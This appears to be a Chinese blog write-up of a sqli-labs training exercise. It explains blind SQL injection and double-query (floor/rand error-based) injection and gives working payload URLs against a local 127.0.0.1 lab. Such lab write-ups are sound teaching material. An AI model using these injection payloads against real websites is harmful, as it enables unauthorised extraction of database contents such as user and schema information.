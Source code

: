 
![](https://img-blog.csdn.net/20180825140330628?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



所以存在SQL注入，可以猜到sql查询的源代码。



```
select * from security where id='$_GET[id]' limit 0,1
```




咦，这不是和Less-1是一样的吗？哦不，页面显示的信息有点不一样！最后我们发现无论输入什么正确的信息，页面都只显示 You are in .....



![](https://img-blog.csdn.net/20180825140703204?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



于是我们猜测，页面的输出信息是固定的。当sql查询语句正确时，就返回一个固定的信息。当sql查询语句错误时，就不显示。当sql语句有错时，页面就会报出sql语句的错！为了验证这个，我们看下源代码。果然，证实了我们的猜想！



![](https://img-blog.csdn.net/20180825141027330?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



那么，这种情况下我们怎么进行注入呢？



这种情况union注入是行不通的。因为我们只能通过order by知道有3列，而不知道多少列是显示列。



那盲注呢，我们可以通过页面是否显示来判断我们的输入是否正确，当我们的sql正确时，就显示you are in....。当我们的sql语句错误是，就不显示。



我们找到了注入点之后就可以进行盲注了！



```
http://127.0.0.1/sqli/Less-1/?id=1' and 1=2 #      
// and 1=2 就是注入点，我们就可以在注入点的位置插入判断语句了      
http://127.0.0.1/sqli/Less-1/?id=1' #inject# #
```




这题，我们网上的另一个好的解法就是利用双注入！双注入其实也就是floor报错注入。是利用count(),rand(),floor(),group by这几个函数结合在一起发生的漏洞，缺一不可！



双查询注入就是两个嵌套的查询，即 select  ....(select .....) ,里面的那个select被称为子查询，外面的那个select叫做父查询。执行顺序是先执行子查询，然后执行父查询。



下面是payload



```
// 我们可以将 user() 改成任何函数，以获取我们想要的信息      
http://127.0.0.1/sqli/Less-1/?id=1'  and (select 1 from (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2)))a) #       
//将其分解      
(select 1 from (Y)a)       
Y= select count(*) from information_schema.tables group by concat(Z)       
Z= user(),floor(rand(0)*2)
```
